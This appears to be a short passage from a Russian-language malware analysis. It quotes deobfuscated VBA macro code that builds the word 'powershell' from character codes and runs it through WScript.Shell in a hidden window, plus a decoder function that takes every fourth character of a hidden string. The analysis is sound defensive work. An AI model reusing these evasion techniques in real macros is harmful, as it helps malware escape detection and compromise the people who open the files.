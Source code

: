 ![](files/Pasted_image_20240406214316.png)

Для обфускации используется несколько кастомных алгоритмов. Функция Aakeqt принимает в качестве параметра десятичное 
представление и возвращает соответствующий ему ASCII-символ. После данного преобразования формируется команда для 
запуска интерпретатора Powershell. В качестве аргумента передается значение переменной S.
 ```vba
Function Aakeqt(n)
	Aakeqt = ChrW(n)
End Function

Set Palasr = CreateObject("WScript.Shell")
Rkasdn = "wer" + Aakeqt(115) + "hell" + Aakeqt(32) + Aakeqt(34) + S + Aakeqt(34)
Palasr.Run "po" + Rkasdn, 0
```

Переменная S формируется при помощи функции Jeaser.
```vba
Function Jeaser(Str) As String
	Lasdqw = ""
	For Counter = 1 To Len(Str) Step 2 + 2
		Lasdqw = Lasdqw + Mid(Str, Counter, 1)
	Next
	Jeaser = Lasdqw
End Function
```
